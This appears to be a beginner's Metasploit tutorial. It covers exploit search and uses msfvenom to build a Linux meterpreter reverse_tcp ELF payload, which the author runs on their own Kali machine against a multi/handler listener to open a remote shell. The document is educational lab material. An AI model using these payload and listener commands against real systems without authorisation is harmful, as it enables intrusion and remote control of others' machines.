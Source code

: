 [Metasploit]()

The first thing you do in terms of enumeration is using tools like NMap to find out what ports are open and what OS the system is using and what vulnerabilities we can find in order to exploit the system. Once we find the OS or the browser whose exploit is available in msfconsole we go ahead and start the process. 
The things we need to look for when we first find how we are going to exploit the system are the following things: 

$`RHOST -- This is the victim machine` 

$`LHOST -- This is the machine that we are attacking from, in our case the kali Linux` 

$`RPORT -- The target port` 

When we do options after we use any of the exploit, then if we do options we can see the parameters that are required. We must give the machine the parameters that say "required" 

The following steps should be followed in order to exploit a system. 

1. Search for the type of exploit that you will need. The examples for the way to look for exploits is as follows: 

$` search cve:2009 type:exploit platform:linux ` In this search line, we are looking for a CVE for 2009, the type we are looking for is exploit and the platform that we are looking the exploit for is Linux

$`Exploit -- gets you into a system` 

$`Payload -- lets system connect back to you`

When a payload is executed on a system, the listener is waiting. The listener being multi/handler. 

First we will do msfvenom, here we are exploiting our own machine so we do this outside of msfconsole in regular command prompt. 
In order to find the payloads to hack our own kali machine, we will be looking for the linux meterpreter. 

$`msfvenom --list payloads | grep meterpreter` The grep filter searches a file for a particular pattern of characters, and displays all lines that contain that pattern.
reverse_tcp allows the remote computer to connect to you. 

$`msfvenom --list format` This is the different types of formats that you can use. Since we are hacking a Linux machine, we will be using a elf file, which is the executable linux file. 

Creating a payload for your own Machine using MSFVENOM 

$`msfvenom --payload linux/x64/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4444 --format elf -o file1`

In the above statement, we are creating a payload for our own kali machine, we will be using the reverse_tcp payload, lhost being the host machine that we are using. We will be using the listenining port 4444 and our format will be elf since we are using a linux machine and elf is a executable linux file $`-o` is the output and we give the filename file 1 where the output will be saved to. 

Now we open another tab and go inside msfconsole, once we get the $`msf6` we type in $`use exploit/multi/handler` and once we press enter, we wil get the $`msf6 exploit(multi/handler)`We can know if we are inside the exploit if it turns red on the command line. We type info now and it will give us information about it. Once we get that, we type in $`show payloads` and grab the same payload the $`linux/x64/meterpreter/reverse_tcp`. We $`set payload` or we can also use $`setpayload 431 `(number, in our case it was 431 and paste the same payload. We type $`show options` again. We can see that in the Payload options. We need to set lhost, which is required. We set $`set lhost 10.0.2.15` After that just hit $`run`. This has started the listening process. 

We go back to the msfvenom tab, we execute the payload. In order to do so, we need to give it more permission, so we do the $`chmod +x file1`. the chmod command gives the file all the authority it needs to read, write and execute. 
$`./file1` Enter. 
Now we go back to the msfconsole. The meterpreter shell has opened. It has connected to the Kali Machine. If we type $`getuid` we can see that we are inside the kali machine. we can also use $`sysinfo` we can see different things in there. 

 







